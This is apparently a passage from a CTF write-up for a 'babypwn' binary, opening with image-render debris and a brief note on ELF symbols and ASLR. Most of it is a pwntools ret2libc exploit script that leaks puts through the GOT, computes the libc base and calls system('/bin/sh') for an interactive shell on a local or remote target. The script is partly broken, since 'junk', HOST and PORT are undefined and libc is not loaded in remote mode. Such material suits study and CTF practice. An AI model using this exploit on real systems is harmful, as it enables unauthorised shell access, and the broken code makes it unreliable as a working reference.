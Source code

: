 **ELF symbool**


* libc.sym['puts'] Symbols are a symbolic reference to some type of data or code such as a global variable or function


getting libc base address is the first step to bypass ASLR. However , so far we're disabling ASLR  remeber that. So far we defeated ASLR and it's time to enable it to test our exploit

```
echo 2 > /proc/sys/kernel/randomize_va_space

```



```python


from pwn import *



def exploit(r):


	system = p64(0x7ffff7a52390)
	sh = p64(0x7ffff7b99d57)
	poprdi = p64(0x0000000000401203)
	puts_plt = p64(0x401030)
	puts_got = p64(0x0000000000403fc8)
	main = p64(0x0000000000401169)
	r.sendline(junk + poprdi + puts_got + puts_plt + main)

	r.recvline("Welcome student! Can you run /bin/sh")
	data = r.recv(6)
	data += "\x00" *(8 - len(data))
	leak = u64(data)
	libcAddress = leak - libc.symbols['puts']
	system = libcAddress + libc.symbols['system']
	sh = libcAddress + next(libc.search('/bin/sh'))
	log.info("[+] libc.address : " + hex(leak))
	log.info("[+] system : " + hex(system))
	log.info("[+] /bin/sh : " + hex(sh))
	r.sendline(junk + poprdi + p64(sh) + p64(system) )
	r.interactive()


if __name__ == '__main__':

	if(len(sys.argv) > 1):

		r = remote(HOST,PORT)
		exploit(r)
	else:
		file = 'babypwn'
		binary = os.getcwd() + '/' + str(file)
		r = process(binary)
		libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
		print(util.proc.pidof(r))
		pause()
		exploit(r)




```